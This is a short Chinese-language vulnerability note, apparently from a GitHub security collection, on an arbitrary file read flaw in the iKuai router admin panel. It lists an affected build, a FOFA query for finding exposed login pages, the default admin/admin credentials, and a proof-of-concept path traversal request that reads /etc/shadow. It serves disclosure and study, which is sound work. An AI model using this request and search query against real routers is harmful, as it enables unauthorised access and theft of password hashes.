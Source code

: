 # iKuai 后台任意文件读取漏洞

## 漏洞描述

参考链接：

- https://forum.ywhack.com/thread-115307-1-8.html

## 漏洞影响

影响版本，不一定是绝对版本，也可能其它版本都存在：

```
3.2.8 x64 Build201910101758
```

## FOFA

```
title="登录爱快流控路由"
```

## 漏洞复现

默认用户名/密码：admin/admin

poc：

```
GET /Action/download?filename=../../../../../../etc/shadow HTTP/1.1
Host：
....
```





